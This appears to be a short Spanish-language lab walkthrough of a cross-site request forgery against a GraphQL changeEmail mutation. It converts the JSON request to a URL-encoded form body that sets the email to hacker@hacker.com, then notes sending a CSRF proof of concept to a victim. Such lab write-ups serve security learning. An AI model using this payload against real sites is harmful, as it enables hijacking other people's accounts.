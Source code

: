 Query en JSON : 
```json
{"query":
    "mutation changeEmail($input: ChangeEmailInput!) {
        changeEmail(input: $input) {
            email
        }
    }",
	"operationName":"changeEmail",
    "variables": {"input":{"email":"dsfewf@fe.com"}}
}
```

Para pasarlo a `x-www-form-urlencoded` , clic derecho `Change Request Method` dos veces.
Cambiamos el body del json , 
Cambiamos la llave del query por un parámetro query
Cambiamos los espacios por +
Cambiamos los saltos de línea /n por %0A
Paréntesis url encodeados
: encodeados
en general todos los caracteres especiales menos números.

```x-www-form-urlencoded

query=%0A++++mutation+changeEmail%28%24input%3A+ChangeEmailInput%21%29+%7B%0A++++++++changeEmail%28input%3A+%24input%29+%7B%0A++++++++++++email%0A++++++++%7D%0A++++%7D%0A&operationName=changeEmail&variables=%7B%22input%22%3A%7B%22email%22%3A%22hacker%40hacker.com%22%7D%7D
```

Generamos csrf poc y se lo enviamos  a la víctima.